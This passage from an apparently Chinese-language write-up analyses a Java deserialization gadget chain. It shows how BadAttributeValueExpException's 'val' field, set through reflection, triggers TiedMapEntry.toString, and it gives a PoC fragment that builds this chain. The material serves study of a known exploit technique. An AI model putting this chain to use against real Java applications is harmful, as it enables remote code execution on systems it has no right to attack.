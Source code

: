 ![image-20220126115328478](images/2.png)

```
Object valObj = gf.get("val", null);
```

valobj是这么来的,是直接获取`gf`中的val参数的值,而`gf`是通过反序列化流获取的值,那么val参数就可以在反序列化的过程中对其进行控制,所以这里我们可以去调用一个TiedMapEntry类的toString方法

```
public String toString() {
    return getKey() + "=" + getValue();
}
```

但是要注意该类的构造函数,不能直接对val赋值不然这里也会去调用TiedMapEntry类的toString

![image-20220126115742104](images/3.png)

所以可以在实例化该类后通过反射对val参数进行控制,对应的poc中代码

```
TiedMapEntry tiedMap = new TiedMapEntry(outmap,"DawnT0wn");
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
Field field = BadAttributeValueExpException.class.getDeclaredField("val");
field.setAccessible(true);
field.set(badAttributeValueExpException,tiedMap);
```
